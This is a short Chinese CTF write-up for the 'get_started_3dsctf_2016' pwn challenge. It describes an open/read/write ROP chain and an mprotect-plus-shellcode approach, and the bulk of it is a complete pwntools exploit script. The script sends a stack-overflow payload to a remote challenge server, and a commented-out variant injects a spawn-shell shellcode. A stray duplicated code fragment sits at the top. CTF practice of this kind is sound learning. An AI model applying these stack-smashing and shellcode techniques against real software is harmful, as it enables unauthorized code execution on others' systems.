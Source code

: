 
from pwn import *

io = remote('node3.buuoj.cn', 27545)









## 0x0a get_started_3dsctf_2016
### ans  orw

orw：  
使用 open , read , write 三个函数对 flag 进行读写。  
找到 pop_3_ret 和 pop_2_ret，写到 ret 地址上，使得执行流能够再次回到布局好的栈上。

mprotect + shellcode:  
利用mprotect函数修改bss段的权限，让其有执行权限。  
再用read写入shellcode，然后跳转到bss段执行来getshell。

### exp  
```python

from pwn import *

io = remote('node3.buuoj.cn', 27545)
# io = process("./get_started_3dsctf_2016")
e = ELF("./get_started_3dsctf_2016")

pop_3_ret  = 0x809e4c5
pop_2_ret  = 0x806fc31
bss_addr   = 0x80EC000 
flag_addr  = 0x80BC388
open_addr  = e.symbols['open']
read_addr  = e.symbols['read']
write_addr = e.symbols['write'] 
mprotect_addr = e.symbols['mprotect']
mpr_len    = 0x1000
mpr_prot   = 7  # rxw=7
main_addr  = e.symbols['main']

# # orw
payload =  'a' * 0x38 + p32(open_addr) + p32(pop_2_ret) + p32(flag_addr) + p32(0) # pop2 跳过两个参数
payload += p32(read_addr) + p32(pop_3_ret) + p32(3) + p32(bss_addr) + p32(64) # pop3 跳过三个参数
payload += p32(write_addr) + 'dead' + p32(1) + p32(bss_addr) + p32(64)
io.sendline(payload)
io.interactive()

# # mprotect + shellcode
# shellcode = asm(shellcraft.sh())
# payload = 'a' *0x38 + p32(mprotect_addr) + p32(pop_3_ret) + p32(bss_addr) + p32(mpr_len) + p32(mpr_prot)
# payload += p32(read_addr) + p32(pop_3_ret) + p32(0) + p32(bss_addr) + p32(len(shellcode))
# payload += p32(bss_addr)
# io.sendline(payload)
# io.sendline(shellcode)
# io.interactive()

```
